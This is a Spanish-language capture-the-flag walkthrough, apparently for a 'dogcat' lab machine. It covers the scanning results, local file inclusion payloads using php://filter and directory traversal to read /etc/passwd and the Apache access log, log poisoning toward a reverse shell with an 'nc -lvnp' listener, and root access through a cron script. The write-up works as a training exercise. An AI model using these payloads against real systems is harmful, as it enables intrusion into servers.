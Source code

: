 #Linux #medium 
### Ping
```python
ping -c 1 10.10.183.95
PING 10.10.183.95 (10.10.183.95) 56(84) bytes of data.
64 bytes from 10.10.183.95: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.183.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 251.536/251.536/251.536/0.000 ms
```
###### TTL=63 Maquina Linux

### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.48 seconds
```

| PORT   | STATE | SERVICE | VERSION                                                      |
| ------ | ----- | ------- | ------------------------------------------------------------ |
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.38 ((Debian))                               |
### Enumeración del puerto 80

![[Pasted image 20240612153801.png]]
###### al hacer click en los botones las imagenes y los gatos son aleatorios. tambien tenemos un = por lo que podemos intentar un PATH traversal
![[Pasted image 20240612153806.png]]
###### ok parece que están sanetizando de alguna manera este archivo así que vamos a intentar baypasearlo con una técnica de direcroty traversal 
```python
/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```
este comando nos ayuda a hacer el llamado al recurso y encodearlo en base64 
![[Pasted image 20240612153810.png]]
###### esta respuesta nos afierma que es vulnerable a esta inyeccion asi que probamos el siguiente
```python
/?view=./dog/../../../../../../../etc/passwd&ext=
```

![[Pasted image 20240612153814.png]]
###### perfecto. miramos el codigo fuente
![[Pasted image 20240612153819.png]]
###### parece que podemos ver el archivo /etc/passwd 
sin embargo no tenemos nungun hash por lo que puedo pensar que tendremos que apuntar al log y envenenarlo(Log Poisoning)

```python
	GET /?view=./dog../../../../../../var/log/apache2/access.log&ext= HTTP/1.1
```
podemos ver el access.log así que tendremos que aplicar la técnica Log Poisoning para envenenar el log de acceso y poder inyectar una reverse shell

### Burpsuite
###### interceptamos la peticion para poder ver la url y envenenamos el log de la siguiente manera
tendremos que inyectar un codigo php URL encode en la variable &cmd para que pueda ser imterpretada por el systema

![[Pasted image 20240612153826.png]]

### nc -lvnp 7890

![[Pasted image 20240612153832.png]]

### Escalada de privilegios 

![[Pasted image 20240612153837.png]]
###### tenemos un archivo backup.sh que parece ser una tarea cron

![[Pasted image 20240612153840.png]]
### WE ARE ROOT

![[Pasted image 20240612153844.png]]